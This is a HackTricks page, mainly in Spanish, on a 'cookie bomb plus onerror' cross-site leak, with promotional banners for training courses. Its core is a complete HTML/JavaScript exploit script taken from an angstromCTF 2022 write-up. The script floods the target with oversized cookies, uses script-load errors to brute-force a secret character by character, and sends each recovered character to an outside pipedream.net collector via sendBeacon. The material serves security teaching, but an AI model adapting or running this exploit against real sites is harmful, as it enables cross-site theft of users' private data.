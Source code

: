 # Cookie Bomb + Onerror XS Leak

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

El siguiente **script** tomado de [**aquí**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) está explotando una funcionalidad que permite al usuario **insertar cualquier cantidad de cookies**, y luego cargar un archivo como un script sabiendo que la verdadera respuesta será más grande que la falsa y luego. Si tiene éxito, la respuesta es una redirección con una URL resultante más larga, **demasiado grande para que el servidor la maneje, por lo que devuelve un código de estado http de error**. Si la búsqueda falla, no sucederá nada porque la URL es corta.
```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
const $ = document.querySelector.bind(document);
const sleep = (ms) => new Promise(r => setTimeout(r, ms));
let i = 0;
const stuff = async (len=3500) => {
let name = Math.random();
$("form").target = name;
let w = window.open('', name);
$("#f").value = "_".repeat(len);
$("#f").name = i++;
$("form").submit();
await sleep(100);
};
const isError = async (url) => {
return new Promise(r => {
let script = document.createElement('script');
script.src = url;
script.onload = () => r(false);
script.onerror = () => r(true);
document.head.appendChild(script);
});
}
const search = (query) => {
return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
};
const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
const url = "//en4u1nbmyeahu.x.pipedream.net/";
let known = "actf{";
window.onload = async () => {
navigator.sendBeacon(url + "?load");
await Promise.all([stuff(), stuff(), stuff(), stuff()]);
await stuff(1600);
navigator.sendBeacon(url + "?go");
while (true) {
for (let c of alphabet) {
let query = known + c;
if (await search(query)) {
navigator.sendBeacon(url, query);
known += c;
break;
}
}
}
};
</script>
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
